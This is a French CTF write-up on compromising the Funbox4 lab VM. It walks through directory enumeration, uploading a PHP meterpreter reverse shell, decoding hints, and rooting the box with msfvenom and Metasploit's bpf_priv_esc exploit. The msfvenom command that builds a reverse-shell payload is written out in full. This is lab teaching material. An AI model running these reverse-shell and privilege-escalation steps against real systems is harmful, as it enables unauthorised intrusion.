


# Funbox4 : CTF

L'objectif de cette VM est de trouver le flag sur la machine cible en utilisant une élévation de droit.

## Sommaire

1. [Mise en place](#mise-en-place)
2. [Site Internet](#Site-internet)
3. [Script PHP](#Script-PHP)
4. [Augmentation des droits](#Augmentation-des-droits)

## Mise en place

Adresse IP hôte : **192.168.1.51**

Adresse IP cible : **192.168.1.23**

Ports disponibles :

## Site internet

Le site internet est ce qu'il semble être le plus simple à attaquer.

Nous avons pour l'instant seulement accès à la page par défaut de apache.

Utilisons `dirb` et `nikto` pour voir s'il y a des vulnérabilités.

`sudo dirb http://192.168.1.23` 

`nikto -h 192.168.1.23 80` 

Pour l'instant, rien ne ressort réellement.

Sans trop savoir, j'utilise `wpscan` au cas où le site utiliserai WordPress.

Par hasard, essayons de voir ce que donne le `/robots.txt`.

Ça ne marche pas. Cependant, sur la page Vulhub, l'auteur de ce CTF mentionne une histoire de majuscule. On peut tenter des routes avec des premières lettres en majuscules ou des noms complets en majuscules.

Ok, super maintenant, on a une piste. Regardons ce que contient ces dossiers/fichiers.

`/igmseklhgmrjmtherij2145236` existe, on n'y a juste pas accès. Avec cette info, trouvons s'il existe des sous-dossiers grâce à `dirbuster`. Pour augmenter le nombre d'essais, on va utiliser le fichier `directory-list-2.3-medium.txt`.

On obtient plusieurs résultats tels que `/upload`, `/upload.php` et `upload.html`.

Voyons ce que donne cette page php.

Donc, on a accès à une page nous permettant d'upload des fichiers sur la machine cible. On peut alors comme dans un des tps précédents, utiliser un script php pour se connecter avec un shell à la machine cible.

## Script PHP

Pour ce faire, on va utiliser `metasploit`.

On choisit d'utiliser le payload `php/meterpreter/reverse_tcp` et on paramètre l'adresse local et le port local.

Ensuite, il faut upload via le site notre script php malveillant. On va ici réutiliser celui du tp précédent.

Pour activer la connexion, on essaye de se connecter au fichier uploadé.

Ensuite on retourne sur metasploit.

Nous voici sur la machine cible. On peut se balader sur la machine à présent.

Dans ce dossier se trouve un fichier `hint.txt`, voyons ce qu'il contient.

Il y a 3 messages codés dans ce fichiers.

Le premier est encodé en brainfuck, un langage de programmation conçu pour avoir le plus petit compilateur possible.

Le deuxième message est encodé en base64.

L'auteur est un petit rigolo.

Le troisième message est encodé en base32.

Ok, donc on doit chercher un fichier `todos` qui doit contenir de nouveaux indices pour la suite.

La première étape est de vérifier les backups.

Il y a des fichiers intéressants, tels que `passwd.bak` mais on n'a pas les droits pour l'ouvrir.

Ça semble être une impasse, alors le plus simple est d'augmenter nos droits afin de pouvoir faire ce que l'on veut sur la machine cible en se connectant en root.

## Augmentation de droits

De la même manière que pour le script php, on va uploader un fichier malveillant sur la machine cible grâce à metasploit.

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.51 LPORT=5555 -f elf -o escalate.elf` 

Maintenant via notre shell connecté à la machine cible, on va déplacer ce fichier dans le dossier `/tmp` afin de pouvoir l'exécuter.

Dans une nouvelle instance de metasploit, il faut lancer un listener de la même manière qu'avec le script php.

On execute le fichier `escalate.elf`.

Voici la première partie de faite, mais nous n'avons pas encore le droit root. Pour ce faire, on doit lancer un nouvel exploit. On met de côté la session meterpreter que l'on vient de lancer. Pour trouver un exploit qui fonctionnera sur ce système, on peut utiliser une fonction metasploit.

`use post/multi/recon/local_exploit_suggester`

Pour que cela fonctionne, il faut définir la session metasploit à utiliser.

On a un bon choix d'exploit disponible, disons que l'on va utiliser le premier.

`use exploit/linux/local/bpf_priv_esc`

Nous sommes à présent connecté à la machine cible en root, ce qui nous permet d'accéder au flag. Il suffit maintenant de le trouver.

Après quelques minutes de recherche, voici le flag.
